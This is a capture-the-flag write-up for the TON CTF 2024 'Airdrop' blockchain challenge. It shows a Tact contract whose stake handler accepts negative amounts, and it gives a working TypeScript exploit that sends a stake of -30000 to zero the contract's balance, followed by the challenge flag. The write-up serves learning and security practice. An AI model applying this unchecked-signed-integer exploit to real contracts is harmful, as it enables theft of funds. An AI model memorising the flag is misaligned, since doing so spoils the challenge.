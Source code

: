 ```yaml
---
title: Blockchain - Airdrop
description: 2024 | TON CTF | DEFI
tags:
    - ton
    - tact
---
```


## Description

> [Challenge Files](https://github.com/TonBitSec/TonCTF-Challenges/tree/6dc2518086f88006a4dd4dd0bfef963b1f13c33b/airdrop)

??? note "Airdrop.tact"

    ```rs
    const CLAIM_AMOUNT: Int = 1;
    const INIT_SUPPLY: Int = 30000;

    message UserStake{
        amount: Int;
    }

    message UserWithdraw{
        amount: Int;
    }

    message StakeEvent{
        sender: Address;
        amount: Int;
    }

    contract AirDrop {

        total_balance: Int as uint256;
        user_info: map<Address, Int>;
        user_claim_info: map<Address, Bool>;

        init(version: Int) {
            self.user_info = emptyMap();
            self.total_balance = INIT_SUPPLY;
        }

        receive("AirDrop") {
            require(self.user_claim_info.get(sender()) == null, "Have claimed");
            let user_staked: Int = 0;
            if (self.user_info.get(sender()) != null) {
                user_staked = self.user_info.get(sender())!!;
            }
            self.total_balance = self.total_balance - CLAIM_AMOUNT;
            self.user_info.set(sender(), user_staked + CLAIM_AMOUNT);
            self.user_claim_info.set(sender(), true);
        }

        receive(msg: UserStake) {
            require(context().value > msg.amount, "Incorrect TON value");
            let user_staked: Int = 0;
            if (self.user_info.get(sender()) != null) {
                user_staked = self.user_info.get(sender())!!;
            }
            self.total_balance = self.total_balance + msg.amount;
            self.user_info.set(sender(), user_staked + msg.amount);
        }

        receive(msg: UserWithdraw) {
            require(self.user_info.get(sender()) != null && self.user_info.get(sender())!! != 0, "Nothing to withdraw");
            let user_staked: Int = 0;
            user_staked = self.user_info.get(sender())!!;
            require(msg.amount <= user_staked, "Insufficient balance");
            self.total_balance = self.total_balance - msg.amount;
            if (msg.amount == user_staked) {
                self.user_info.del(sender());
            } else {
                self.user_info.set(sender(), user_staked - msg.amount);
            }
        }

        get fun balance(): Int {
            return self.total_balance;
        }

        get fun is_solved(): Bool {
            return self.total_balance == 0;
        }
    }
    ```

## Solution

- There is a state variable `total_balance` with value `30000` initially. The goal of this challenge is to make `total_balance` equal to zero
- There are three operations:
  - **AirDrop** Each user can execute once and `total_balance` will be subtracted by 1.
  - **UserStake** Increase `total_balance` and `user_staked` with user-provided `msg.amount`.
  - **UserWithdraw** Decrease `total_balance` and `user_staked` with user-provided `msg.amount`. The `msg.amount` should not be greater than `user_staked`.
- Since `UserStake` does not check `msg.amount` which is of type `Int`, we can provide a negative value to reduce `total_balance`

    ```rs
    receive(msg: UserStake) {
        require(context().value > msg.amount, "Incorrect TON value");
        let user_staked: Int = 0;
        if (self.user_info.get(sender()) != null) {
            user_staked = self.user_info.get(sender())!!;
        }
        self.total_balance = self.total_balance + msg.amount;
        self.user_info.set(sender(), user_staked + msg.amount);
    }
    ```

### Exploitation

Create a `solve.ts` under the `sources/` and run `yarn solve`.

```js
import { Address, toNano, TonClient, WalletContractV4 } from "@ton/ton";
import { mnemonicToPrivateKey } from "ton-crypto";
import { AirDrop } from "./output/Airdrop_AirDrop";
import * as dotenv from "dotenv";
dotenv.config();

(async () => {
    const client = new TonClient({
        endpoint: "http://65.21.223.95:8081/jsonRPC",
    });

    let mnemonics = (process.env.mnemonics_2 || "").toString();
    console.log(mnemonics);

    let keyPair = await mnemonicToPrivateKey(mnemonics.split(" "));
    let secretKey = keyPair.secretKey;
    let workchain = 0; // we are working in basechain.
    let deployer_wallet = WalletContractV4.create({ workchain, publicKey: keyPair.publicKey });
    console.log(deployer_wallet.address);

    let deployer_wallet_contract = client.open(deployer_wallet);

    let target = Address.parse(CONTRACT);

    let contract_open = await client.open(AirDrop.fromAddress(target));
    await contract_open.send(
        deployer_wallet_contract.sender(secretKey),
        {
            // deducting fees from it
            value: toNano("0.1"),
        },
        {
            "$$type": "UserStake",
            "amount": -30000n,
        }
    );
})();
```

### Flag

> flag{9uhaXCAoWxGi}_Airdrop

## References

- [TonBitSec / ton-sample](https://github.com/TonBitSec/ton-sample/tree/054915e9f0655d39e60d0b6740692615da37e023/sources)
